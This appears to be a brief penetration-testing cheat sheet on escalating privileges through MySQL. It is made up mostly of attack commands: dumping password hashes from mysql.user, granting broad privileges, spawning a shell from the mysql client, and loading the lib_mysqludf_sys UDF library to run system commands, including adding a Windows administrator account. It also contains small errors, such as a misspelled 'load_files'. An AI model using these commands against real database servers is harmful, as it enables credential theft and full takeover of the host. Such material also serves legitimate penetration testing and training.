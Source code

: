 It will be very interesting if mysql is running as root:

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
```

## Privilege escalation

###Current Level of access

```sql
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

###Access Passwords

```sql
mysql> use mysql
mysql> select user,password from user;
```

###Create a new user and grant him privileges

```sql
mysql>create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

###Break into a shell

```sql
mysql> \! cat /etc/passwd
mysql> \! bash
```

###Privilege Escalation via library

You can find compiled versions of this libraries in sqlmap: locate `lib_mysqludf_sys.so` and locate `lib_mysqludf_sys.dllInstead` of locate you can also use whereis to search for this libraries inside the host.

Linux

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out.txt');
```

Windows

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
Extracting MySQL credentials from the database
SELECT User,Host,Password FROM mysql.user;
SELECT User,Host,authentication_string FROM mysql.user;
mysql -u root --password=<PASSWORD> -e "SELECT User,Host,authentication_string FROM mysql.user;"
```
